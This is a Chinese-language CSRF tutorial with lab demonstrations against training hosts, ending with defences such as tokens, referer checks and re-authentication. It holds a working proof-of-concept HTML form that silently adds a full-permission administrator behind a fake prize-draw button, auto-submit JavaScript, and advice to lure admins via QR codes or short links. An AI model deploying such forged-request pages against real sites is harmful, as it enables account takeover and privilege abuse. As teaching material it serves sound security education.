








# CSRF漏洞完全指南

## 1. 概述

CSRF（Cross-site request forgery）跨站请求伪造，由于目标站无token/referer限制，导致攻击者可以用户的身份完成操作达到各种目的。根据HTTP请求方式，CSRF利用方式可分为两种。

CSRF是跨站请求伪造，不攻击网站服务器，而是冒充用户在站内的正常操作。通常由于服务端没有对请求头做严格过滤引起的。CSRF会造成密码重置，用户伪造等问题，可能引发严重后果。

绝大多数网站是通过Cookie等方式辨识用户身份，再予以授权的。所以要伪造用户的正常操作，最好的方法是通过XSS或链接欺骗等途径，让用户在本机（即拥有身份cookie的浏览器端）发起用户所不知道的请求。CSRF攻击会令用户在不知情的情况下攻击自己已经登录的系统。



从上图可以看出，要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1. 登录受信任网站A，并在本地生成Cookie。
2. 在不登出A的情况下，访问危险网站B。

CSRF攻击的目的是滥用基本的Web功能。如果该网站可以使服务器上的状态变化，如改变受害者的电子邮件地址或密码，或购买的东西，强迫受害人检索数据等等。CSRF攻击会修改目标状态。在这一过程中，受害者会代替攻击者执行这些攻击，攻击者中不会收到响应，受害者会代替攻击者执行这些攻击。

在跨站请求伪造(CSRF)攻击中，攻击者经由用户的浏览器注入网络请求来破坏用户与网站的会话的完整性。浏览器的安全策略允许网站将HTTP请求发送到任何网络地址。此策略允许控制浏览器呈现的内容的攻击者使用此用户控制下的其他资源。

可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。

CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账造成的问题包括：个人隐私泄露以及财产安全。

需要对页面参数做修改时，可以使用burpsuit生成csrf poc，从而进行poc测试，测试完成之后一定要验证，浏览器执行了我们生成的poc测试，令数据产生变化。

**CSRF和XSS的区别**：XSS获取cookie，CSRF伪造跨站请求完成指令。CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，然后实施破坏。

---

## 2. 可能存在的位置

- 对目标网站增删改的地方进行标记，并观察其逻辑，判断请求是否可以被伪造；
  - 比如修改管理员账号，并不需要验证旧密码，导致请求容易被伪造
  - 比如对于敏感信息的修改并没有使用安全的token验证，导致请求容易被伪造

- 确认凭证的有效期（这个问题会提高CSRF被利用的概率）
  - 虽然退出或者关闭了浏览器，但是cookie仍然有效，或者session并没有及时过期，导致CSRF攻击变得简单

---

## 3. 实操案例

### 3.1 靶场演示

以lucy/123456账号为例，进行登录。登录之后，可以看到lucy的个人信息。



点击修改个人信息进入修改界面，然后进行抓包。



得到下面的GET请求：

```text
http://d19.s.iproute.cn/vul/csrf/csrfget/csrf_get_edit.php?sex=girl&phonenum=12345678922&add=usa&email=lucy%40pikachu.com&submit=submit
```

修改一下请求，然后使用同一个浏览器提交，就可以触发信息的更改：

```text
http://d19.s.iproute.cn/vul/csrf/csrfget/csrf_get_edit.php?sex=girl&phonenum=6666&add=usa&email=lucy%40pikachu.com&submit=submit
```



可以将这个网址生成二维码，或者生成短网址来诱导管理员访问。

### 3.2 实战案例

网站地址：`http://d12.s.iproute.cn/`

在网站后台管理员管理处添加管理员并且抓包。



在提交的时候可以抓包到如下内容：



下面是POST提交的部分：

```text
POST /admin/admin/save.php?action=add&lang=cn&anyid=47 HTTP/1.1
Host: d12.s.iproute.cn
Content-Length: 1214
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d12.s.iproute.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://d12.s.iproute.cn/admin/admin/add.php?lang=cn&anyid=47
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: upgraderemind=1; appsynchronous=1; PHPSESSID=8k85bi6vlkpus90kml2fcqo473; conav=7; coul=47
Connection: close

useid=test&pass1=test&pass2=test&name=&sex=0&tel=&mobile=6666&email=111%40test.com&qq=&msn=&taobao=&admin_introduction=&admin_group=3&langok=metinfo&langok_cn=cn&langok_en=en&admin_op0=metinfo&admin_op1=add&admin_op2=editor&admin_op3=del&admin_pop=yes&admin_pop1001=1001&admin_pop1002=1002&admin_pop1003=1003&admin_pop1004=1004&admin_pop1005=1005&admin_pop1006=1006&admin_pop1101=1101&admin_pop1102=1102&admin_pop1103=1103&admin_pop1104=1104&admin_pop1105=1105&admin_pop1106=1106&admin_pop1201=1201&admin_pop1202=1202&admin_pop1203=1203&admin_pop1204=1204&admin_pop1301=1301&admin_pop1302=1302&admin_pop1303=1303&admin_pop1304=1304&admin_pop1305=1305&admin_pop1=1&admin_pop2=2&admin_pop3=3&admin_pop25=25&admin_pop31=31&admin_pop32=32&admin_pop33=33&admin_pop36=36&admin_pop42=42&admin_pop43=43&admin_pop49=49&admin_pop44=44&admin_pop50=50&admin_pop45=45&admin_pop46=46&admin_pop47=47&admin_pop9999=9999&admin_pop1401=1401&admin_pop1402=1402&admin_pop1403=1403&admin_pop1404=1404&admin_pop1405=1405&admin_pop1406=1406&admin_pop1505=1505&admin_pop1502=1502&admin_pop1503=1503&admin_pop1504=1504&admin_pop1501=1501&admin_pop1601=1601&admin_pop1604=1604&admin_pop1602=1602&admin_pop1603=1603&submit=%E4%BF%9D%E5%AD%98
```

这种的利用方式就会比较麻烦，因为是使用的POST方式提交的，可以考虑构造一个假的网页诱导管理员访问。

首先生成HTML文件，此处可以使用chatgpt帮助我们快速生成input页面：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://d12.s.iproute.cn/admin/admin/save.php?action=add&lang=cn&anyid=47" method="post">
        <input type="text" name="useid" value="test" hidden>
        <input type="password" name="pass1" value="test" hidden>
        <input type="password" name="pass2" value="test" hidden>
        <input type="text" name="name" value="" hidden>
        <input type="radio" name="sex" value="0" hidden>
        <input type="text" name="tel" value="" hidden>
        <input type="text" name="mobile" value="6666" hidden>
        <input type="email" name="email" value="111@test.com" hidden>
        <input type="text" name="qq" value="" hidden>
        <input type="text" name="msn" value="" hidden>
        <input type="text" name="taobao" value="" hidden>
        <textarea name="admin_introduction" hidden></textarea>
        <select name="admin_group" hidden>
            <option value="3"></option>
        </select>
        <input type="checkbox" name="langok" value="metinfo" hidden>
        <input type="checkbox" name="langok_cn" value="cn" hidden>
        <input type="checkbox" name="langok_en" value="en" hidden>
        <input type="checkbox" name="admin_op[]" value="metinfo" checked hidden>
        <input type="checkbox" name="admin_op[]" value="add" hidden>
        <input type="checkbox" name="admin_op[]" value="editor" hidden>
        <input type="checkbox" name="admin_op[]" value="del" hidden>
        <input type="checkbox" name="admin_pop" value="yes" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1001" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1002" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1003" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1004" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1005" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1006" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1101" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1102" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1103" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1104" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1105" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1106" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1201" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1202" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1203" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1204" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1301" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1302" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1303" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1304" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1305" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="2" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="3" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="25" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="31" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="32" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="33" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="36" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="42" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="43" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="49" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="44" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="50" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="45" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="46" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="47" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="9999" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1401" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1402" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1403" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1404" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1405" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1406" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1505" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1502" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1503" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1504" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1501" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1601" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1604" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1602" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1603" checked hidden>
        <input type="submit" value="点我开始抽奖">
    </form>
</body>
</html>
```

使用管理员登录过的浏览器打开此网页：



当误点击了链接之后，就会出现如下界面：



管理员被成功添加。

当然也可以使用javascript，当管理员访问此页面的时候，自动触发提交请求，这样就可以把诱导的网址做成二维码来让管理员扫码或者是点开不做任何操作都能够触发：

```javascript
window.onload = function() {
  document.getElementById("myForm").submit();
};
// 在给submit添加了id="myForm"之后，再加上这段js代码，就可以触发自动提交
```

---

## 4. 防御措施

### 4.1 增加Token验证

CSRF的主要问题是敏感操作的链接容易被伪造。

Token是如何防止CSRF的：每次请求，都增加一个随机码（需要够随机，不容易伪造），后台每次对这个随机码进行验证，每次刷新界面或者重新开启新的请求就能够刷新Token，这样就能基本上防御住了CSRF。

### 4.2 会话管理

- 不要在客户端保存敏感信息
- 退出浏览器或者关闭及时清理会话机制
- 设置会话超时，比如10分钟内没有操作就自动退出

### 4.3 安全管理

- 在一些敏感操作的时候要对身份进行二次认证，比如修改账号时需要校验旧密码
- 数据提交的时候使用POST不使用GET
- 使用http头中的referer来限制界面

### 4.4 使用验证码

在登录或其他重要操作的时候使用验证码校验，防止爆破破解。
